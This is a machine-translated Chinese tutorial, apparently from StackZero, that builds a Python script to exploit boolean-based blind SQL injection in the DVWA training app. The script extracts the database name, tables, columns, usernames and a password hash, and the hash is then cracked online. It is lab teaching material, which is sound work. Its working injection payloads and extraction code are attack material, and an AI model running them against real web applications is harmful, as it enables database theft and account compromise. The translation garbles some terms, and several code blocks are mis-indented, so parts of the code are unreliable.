




# 打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)— StackZero

> 原文：<https://infosecwriteups.com/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf?source=collection_archive---------0----------------------->


> 本文原载于[https://www . stack zero . net/blind-SQL-injection-dvwa-low-security-with-python/](https://www.stackzero.net/blind-sql-injection-dvwa-low-security-with-python/)

嗨黑客们！这里有另一篇文章将展示如何在实践中利用一个已知的漏洞。
特别是，这次我们将使用 Python 开发 [DVWA](https://github.com/digininja/DVWA) 的盲 SQL 注入段。

我想向您展示一个一体化脚本，一旦运行它，您将获得在看不到查询结果的环境中获取管理员密码所需的所有信息。

这就是最终的结果:



有很多方法可以解决这个难题，但我选择使用自定义脚本，主要原因如下:

*   我们必须执行大量的调用，而[打嗝套件社区](https://portswigger.net/burp)版对入侵者的线程数量有限制
*   我不想依赖外部工具
*   理解一件事的最好方法是自己动手去做

我充分意识到专业工具对渗透测试人员来说更好，无论如何，这个博客是我们学习的地方，我看不到更好的方法。

也因为了解基础使你能够使用每一个工具！

# 什么是 SQL 盲注入？

盲 SQL 注入与普通 SQL 注入几乎相同，唯一的区别是数据库不将数据输出到 web 页面。
存在漏洞的页面可能不会显示任何数据，但可能会显示当前用户名等内容。
因此，攻击者被迫通过询问数据库来窃取数据:

*   一系列对或错的问题(基于布尔型。
*   依靠睡眠功能的一系列基于时间的查询(基于时间)。

这使得利用 SQL 注入漏洞更加困难，但并非不可能，因为攻击者可能能够推断出结果。

这种攻击可能非常耗时，因为需要为恢复的每个位创建一个新语句，并且可能包含许多不成功的请求。
但是，有工具可以自动识别和利用这种 SQL 注入盲漏洞。通过使用你的编程技能，也有可能使过程自动化，这是我们在接下来的段落中操作的方式。

我们已经在前面的教程中看到了什么是 SQL 注入以及如何进行这种类型的攻击。

如果你认为你不熟悉 SQL 注入，我建议你在阅读之前不要继续:

# 带内 SQL 注入

*   [SQL 注入:您需要了解的内容](https://medium.com/codex/sql-injection-what-you-need-to-know-stackzero-abc80bc1ea5e)
*   通过入侵易受攻击的应用程序，在实践中学习 SQL 注入！
*   [如何破解 SQL 注入攻击！DVWA 低安全性](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)
*   [黑客用 SQL 注入攻击！DVWA 中等安全性](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)
*   [用 SQL 注入攻击黑客！DVWA 高安全性](/hack-with-sql-injection-attacks-dvwa-high-security-stackzero-713638840515)

# 盲人 SQL 注入

*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 2 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 3 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-3-stackzero-911545003f01)

# 先决条件

正如您所理解的，即使我们在 DVWA 上设置了较低的安全性，使用 python 的盲目 SQL 注入利用也需要更多的工作。

我假设你正在一台 [Kali Linux](https://medium.com/@stackzero/how-to-install-kali-linux-on-virtualbox-in-a-few-minutes-stackzero-37fb019261cb) 机器上工作，无论如何，如果你安装了 Python 3，那将在任何地方工作。

开始之前，您应该使用 **pip** 安装两个基本库:

通过在终端上键入以下命令:

```
pip install beautifulsoup4 requests
```

为了从本教程中获得最佳效果，您还需要一个我为您编写的 utils 文件。

你可以从 GitHub 的[这个链接](https://github.com/StackZeroSec/dvwa/tree/main/blind_sqli)获得它，或者你可以将下面的代码复制/粘贴到一个文件中，这个文件与你的主脚本在同一个目录下。

它为你提供了一组类来简化与 DVWA 的连接和管理 [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) 令牌。我这样做是为了让你把注意力集中在失明的 SQL 注入身上。
显然，我们也可以从浏览器中获取会话令牌，但我发现那极其不舒服。

现在我们准备好了，让我们打开包含脚本的 *main.py* 文件，让我们开始导入 *utils.py*

```
from utils import *
```

# 步骤#0:看一看 Web 应用程序

像往常一样，我在一台 DVWA 机器上测试这个用于盲人 SQL 注入的 Python 脚本，该机器来自 [TryHackMe](https://tryhackme.com/room/dvwa) 的低安全级别。

我们已经看到[在这里](/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)如何设置我们需要的东西。

因此，让我们连接到给定的 IP 并输入:

*   **用户名:**管理员
*   **密码:**密码


之后，进入设置，设置安全级别为“低”，如下图所示。


现在我们将安全性设置为低，我们可以在左侧菜单中点击 **SQL Injection (Blind)** 并在编写 python 脚本之前查看 DVWA 的漏洞。

从这里我们可以推断出一堆信息，让我们看看是什么。

首先，我们可以尝试插入一个随机值，看看结果，比如用“1”试试



如果我们对更大的数字如“100”做同样的处理，结果是:



通过查看浏览器栏中的 URL，我们看到类似这样的内容:

`[http://10.10.201.172/vulnerabilities/sqli_blind/?id=100&Submit=Submit#](http://10.10.201.172/vulnerabilities/sqli_blind/?id=100&Submit=Submit#)`

这表明该查询是作为一个 [HTTP GET 请求](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods)传递的。

在处理代码之前，最后一条信息是检查输入是否易受攻击。

我们试着插入:`1' OR 1=1#`

它表示用户存在，因此我们可以清楚地看到漏洞的存在。

# 步骤 1:检查查询结果

即使它应该是一个快速脚本，我们也不想重复自己，所以我们可以定义一个函数来构建查询，调用服务器，如果服务器给我们一个肯定的响应，则返回 **true** ，否则返回 **false** 。

```
def get_query_result(s, sqli_blind_url, query, *args):
    try:
        concrete_query = query.format(*args)
        response = s.get(f"{sqli_blind_url}?id={concrete_query}&Submit=Submit#")
        parser = DVWASQLiResponseParser(response)
        return parser.check_presence("exist")
    except AttributeError as e:
        return False
```

它接受可变数量的参数，格式化查询，并使用来自 utils 的解析器来获得响应。很明显，这里没有强大的错误检查功能，但是我们的目标是取代打嗝，尽可能多地学习盲 SQL 注入，而不是软件架构！

# 第 2 步:管理登录到 DVWA 和 CSRF 令牌

我提供给你的类负责管理登录和整个会话，在某种程度上隐藏了所有的内部。
如果你想在 DVWA 中操作，你只需要把你所有的代码放到 with 子句中，并在 DVWASessionProxy 上使用 GET/POST 方法，就像你处理来自[请求](https://requests.readthedocs.io/en/latest/)的经典[会话](https://requests.readthedocs.io/en/latest/api/?highlight=session#requests.Session)一样。

您也可以直接从代理设置安全属性。

这是一个最小的例子:

```
with DVWASessionProxy(BASE_URL) as s:
    s.security = SecurityLevel.LOW
    # Put here your code
```

好了，我们完成了准备工作，是时候写我们的主函数了，但是在开始真正的代码之前，我们必须在一个非常明显的地方写一个包含目标 IP 的变量。

这是必需的，因为它对于每个实例都是变化的，所以让我们声明它:

```
if __name__ == "__main__":
    BASE_URL = "http://10.10.227.17" #change this value with the ip of DVWA machine
    sqli_blind_url = f"{BASE_URL}/vulnerabilities/sqli_blind"
```

# 步骤 3:在一次盲目的 SQLi 攻击中获取数据库名称

我们不能像对 SQL 注入那样简单地打印数据库的名称，所以在这种情况下，我们需要得到长度，然后尝试逐个字符地猜测。

我们已经从介绍中的 GUI 看到没有输入控件，所以我们可以利用这一点。
首先，我们需要运行这样一个查询:
`"1' AND LENGTH(DATABASE()) = n #"`

其中 *n* 变化。
**有一个小问题，URL 中的 hashtag 表示那个的结束(** [**这里**](/how-to-exploit-dom-xss-on-dvwa-stackzero-c83a682ed7b7) **可以看到一个解释)，所以我们要用它的 URL 编码的等价物来代替:“%23”。**

所以我们可以选择一个任意长的 n 并循环，直到响应包含了*“exists”*单词。

在 python 中我们是这样做的:

```
query = "1' AND LENGTH(DATABASE()) = {} %23"
        length = 0
for i in range(10):
    if get_query_result(s, sqli_blind_url, query, i):
        print(f"[+] The DB's name length is {i}")
        length = i
```

一旦我们将数据库名称的长度保存到一个变量中，我们就可以试着猜测它。

这一次，我们要检查字符串从第一个位置到最后一个位置的每个字符，并与每个可能的字符进行比较。
显然，如果我们猜测字符，应用程序将返回*“用户 id 存在……”*。我们只需要构建一个包含所有正确字符的字符串。
代码是:

```
query = "1' AND SUBSTRING(DATABASE(), {}, 1) = '{}'%23"
        dbname = []

for i in range(1, length+1):
    for c in string.ascii_lowercase:
        if get_query_result(s, sqli_blind_url, query, i, c):
             dbname.append(c)
             break
    dbname = "".join(dbname)
    print(f'[+] Found a database with name: {dbname}')
```

这段代码有两个嵌套循环，外层循环是字符的索引，内层循环负责测试“string.ascii_lowercase”集合中的每个字符。

最后，我们得到了数据库的名称，它存储在变量*“dbname”*中。

注意:我使用了 [SUBSTRING](https://www.w3schools.com/sql/func_mysql_substring.asp) 函数来获取字符，它接受以下参数:

*   主弦
*   第一个子字符串的字符位置
*   子字符串的字符数

# 步骤 4:在一次盲目的 SQLi 攻击中获取表名

下一步与上一步类似，这一次的目标是获取数据库中所有表的名称，在此之前，即使是这一次，我们也需要知道有多少个表。

多亏了 MySQL 中的[计数](https://www.w3schools.com/sql/func_mysql_count.asp)函数，我们可以通过循环任意数量的整数(如果最终数字等于最大值，我们可以增加范围)来实现这一点:

```
query = "1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_type='base table' AND table_schema='{}')='{}'%23"
n_tables = 0
for i in range(1, 10):
    if get_query_result(s, sqli_blind_url, query, dbname, i):
        print(f"[+] It has {i} tables")
        n_tables = i
        break
```

一旦我们有了表的数量，我们就必须像猜测 DB 名称一样去做，唯一的区别是我们需要对每个表都这样做。

我们将要注入的查询如下:

`"1' AND SUBSTR((SELECT table_name from information_schema.tables WHERE table_type='base table' AND table_schema='dvwa' LIMIT 1),{},1)='{}'%23"`

这个查询与前一个查询一样利用了元表，其原理与我们看到的完全一样。
不同的是，结果是一个元素列表，所以我们需要在提取字符之前[将它们限制为一个。多亏了 SQL](https://www.w3schools.com/mysql/mysql_limit.asp) [LIMIT 子句](https://www.w3schools.com/mysql/mysql_limit.asp)，我们才能做到这一点。

此时你的问题可能是:

一旦我找到了第一个表，我该如何进入下一个表？

有不同的技术，这里我将使用一个`WHERE table_name <> 'found_table_name'`链(内置于变量*完成*)。
在接下来的章节中，我将向您展示如何使用 [LIMIT 子句](https://www.w3schools.com/mysql/mysql_limit.asp)实现同样的功能，就像程序员在他们的应用程序中实现分页一样。

```
query = "1' AND SUBSTR((SELECT table_name from information_schema.tables WHERE table_type='base table' AND table_schema='{}' {} LIMIT 1),{},1)='{}'%23"

found_tables = [[] for _ in range(n_tables)]
completion = ""
for i in range(n_tables):        
    for j in range(1, 10):
        for c in string.ascii_lowercase:
            if get_query_result(s, sqli_blind_url, query, dbname, completion, j, c):
                found_tables[i].append(c)
                break
    print("\t","".join(found_tables[i]))
    completion += f" AND table_name <> '{''.join(found_tables[i])}'"
```

很好，现在我们几乎已经看到了实现这个漏洞所需要的一切！
你可能已经意识到，即使我们在安全级别较低的 DVWA 上，即使你决定不使用 python，一个盲 SQL 注入也可能很棘手，一个有效的利用可能需要很大的努力。

# 步骤#5:在一次隐蔽的 SQLi 攻击中获取列名

我们几乎到了最有趣的部分，现在我们需要得到列名。
和我们之前做的一样，我想知道列的数量，然后得到名称。
当脚本的用户看到我们需要的表格(包含用户名和密码的表格)时，我还将为他提供用 CTRL+C 中断循环的可能性。这会节省更多的时间。

用户还必须插入目标表，以便最终我们可以运行一次脚本并获得用户名和密码。

```
users_table = input("Type the tabname to attack: ")
query = "1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='{}')='{}'%23"

n_columns = 0
for i in range(1, 10):
    if get_query_result(s, sqli_blind_url, query, users_table, i):
        print(f"[+] It has {i} columns")
        n_columns = i
        break
```

获取列数这正是我们已经做的，所以我们可以跳过，看看如何获取列名。

```
query = "1' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='{}' LIMIT {}, 1),{},1)='{}'%23"

found_columns = [[] for _ in range(n_columns)]
completion = ""
print("[!] In order to speed up, try to press CTRL+C when you find the user and password columns")
try:
    for i in range(n_columns):        
        for j in range(1, 12):
            for c in string.ascii_lowercase:
                if get_query_result(s, sqli_blind_url, query, users_table, i, j, c):
                    found_columns[i].append(c)

                    break
        print("\t","".join(found_columns[i]))
except KeyboardInterrupt as e:
    print("\nSkipping this phase!")
```

这与我们查询表名的方式没有太大不同，但是，请注意[限制子句](https://www.w3schools.com/mysql/mysql_limit.asp)的用法，我们可以在这里看到这个子句允许我们指定偏移量，这样我们就可以得到第 n 个元素。

# 步骤 6:在一次盲目的 SQLi 攻击中获取用户名

这是我们获取所有用户名的步骤。
枚举完列后，我们可以让用户选择用户名列和密码列，然后让用户继续猜测。

这一阶段与前一阶段没有太大的不同，我们只是列出所有用户名，让用户能够停止研究，进入下一步！

```
users_column = input("Type the name of the column containing usernames: ")
passwords_column = input("Type the name of the column containing passwords: ")query = "1' AND SUBSTR((SELECT {} FROM {} LIMIT {}, 1),{},1)='{}'%23"

found_users = [[] for _ in range(10)]
completion = ""
print("[!] In order to speed up, try to press CTRL+C when you find the target user")
try:
    for i in range(10):        
        for j in range(1, 12):
            for c in string.ascii_letters+string.digits:
                if get_query_result(s, sqli_blind_url, query, users_column, users_table, i, j, c):
                    found_users[i].append(c)

                    break
        print("\t","".join(found_users[i]))
except KeyboardInterrupt as e:
    print("\n Skipping this phase!")
```

这段代码将列出表中的每个用户，当我们完成后，我们可以停止并开始猜测密码。

# 步骤 7:在一次盲目的 SQLi 攻击中获取用户的密码

我们的攻击已经结束了。

到目前为止，我们已经了解了如何猜测密码，所以我只向您展示代码:

*   询问目标用户
*   猜测密码长度
*   猜测用户的密码

```
query = "1' AND LENGTH((SELECT {} FROM {} WHERE {}='{}'))={}%23"
pwd_length = 0
for i in range(100):

    if get_query_result(s, sqli_blind_url, query, passwords_column, users_table, users_column, username, i ):
        pwd_length = i
        print(f"[+] The password length is: {i}")

query = "1' AND SUBSTR((SELECT {} FROM {} WHERE {}='{}' LIMIT 1), {}, 1)='{}'%23"
password = []
for j in range(1, pwd_length+1):

    for c in string.ascii_letters+string.digits:

        if get_query_result(s, sqli_blind_url, query, passwords_column, users_table, users_column, username, j, c):
                password.append(c)

            break
print("[+] Password is: ","".join(password))
```

# 步骤 8:在一次盲目的 SQLi 攻击中破解密码

最后，一切都完成了，是时候检查我们是否可以只使用一个 python 脚本在 DVWA 上执行盲 SQL 注入了！

让我们通过在终端上键入以下命令，对 DVWA 实例运行盲 SQLi 攻击:

`python main.py`

而这就是我们在介绍中已经看到的牛逼结果！


像在 DVWA 和每个真实数据库中一样，密码被散列，所以让我们将结果复制粘贴到 [Crackstation](https://crackstation.net/) 中。



我们有结果了！

大概你想看完整的代码，那就这样吧！

NB:记得更换 IP 地址！

# 结论

与其他文章相比，这篇文章很长，所以我不再赘述。

我希望你会觉得有趣，也许你和我一样学到了很多。无论你在 IT 领域做什么，这些知识都会派上用场。我从这个项目中获得了很多乐趣，我希望能延续下去。如果你喜欢我的工作，请在我的社交网站上关注我，如果你想给我反馈，请随时使用联系人表格！

我只想用一个想法来结束:

相对于 Burp Suite Community Edition 而言，运行此脚本不会有太多的性能差距，因此请尝试使用线程来执行最耗时的任务！

感谢您的关注！

*你可以通过下面的链接注册，每月只需 5 美元就可以获得所有的媒体报道:*

[](https://medium.com/membership/@stackzero) [## 通过我的推荐链接加入 Medium-stack zero

### 我们的最新报道(以及数以千计的其他报道)一经发布，您就可以立即获得。成为会员后，您将获得所有权限…

medium.com](https://medium.com/membership/@stackzero) 

*原载于 2022 年 10 月 18 日*[*【https://www.stackzero.net】*](https://www.stackzero.net/blind-sql-injection-dvwa-low-security-with-python/)*。*

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！